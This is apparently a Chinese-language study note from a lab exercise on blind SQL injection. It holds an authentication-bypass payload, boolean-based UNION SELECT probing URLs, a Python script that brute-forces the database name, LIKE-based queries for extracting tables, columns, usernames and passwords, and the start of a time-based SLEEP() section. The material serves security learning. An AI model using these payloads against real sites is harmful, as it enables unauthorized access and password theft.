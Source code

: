 - Blind SQLi - Authentication Bypass(身份认证绕过)
  - `select * from users where username='' and password='' OR 1=1;`
- Blind SQLi - Boolean Based(基于布尔)
  - 基于布尔的 SQL 注入是指我们从注入尝试中收到的响应
    - 它可能是真/假、是/否、开/关、1/0 或任何只能有两个结果的响应
  - 该结果向我们确认了我们的 SQL 注入负载是否成功
  - 在第一次检查时，您可能会觉得这种有限的回答无法提供太多信息
  - 尽管如此，实际上，仅通过这两个响应，就可以枚举整个数据库结构和内容
  - 实践
    - 第一步
      - 访问URL`https://website.thm/checkuser?username=admin`,发现返回值 `true` 
      - 构造URL`https://website.thm/checkuser?username=admin123`,发现返回值`false`
    - 第二步
      - 使后台返回的是`true`
      - 构造URL `https://website.thm/checkuser?username=admin123 union select 1`,返回`false`
      - 构造URL `https://website.thm/checkuser?username=admin123 union select 1,2`,返回`false`
      - 构造URL `https://website.thm/checkuser?username=admin123 union select 1,2,3`,返回`true` 
    - 第三步
      - 查询数据库名，得到数据库`sqli_three`
      ```python
      import requests
      import json
      char = [chr(i) for i in range(97,123)]
      char.append('_')
      sql_name = ''
      flag = 1
      while flag == 1:
        for i in char:
          url = "http://ip/run"
          sql = "select * from users where username = 'admin123' union select 1,2,3 where database() like '" + sql_name + i +"%';-- LIMIT "
          payload = {"level":"3","sql":sql}
          info = requests.post(url,data=payload)
          if json.loads(info.text)['message'] == 'true':
            sql_name += i
            flag = 1
            print(sql_name)
            break
          else:
            flag = 0
      ```
    - 第四步
      - 查询表名，得到表名`users`
      - 核心代码 `sql = select * from users where username = 'admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`
    - 第五步
      - 查询列名，得到列名`id` `username` `password`
      - 核心代码1 `sql = select * from users where username = 'admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`
      - 核心代码2 `sql = select * from users where username = 'admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';`
    - 第六步
      - 查询用户名
      - 核心代码 `sql = select * from users where username = 'admin123' UNION SELECT 1,2,3 from users where username like 'a%`
    - 第七步
      - 爆破密码
      - 核心代码 `sql = select * from users where username = 'admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%'`
- Blind SQLi - Time Based(基于时间)
  - 大致思路和基于布尔的注入类似
  - 在UNION 语句中引入`SLEEP()`方法。`SLEEP()` 方法只会在 UNION SELECT 语句成功时执行。 
    - 构造URL `https://website.thm/checkuser?username=admin123 union select sleep(5)`, 未有延时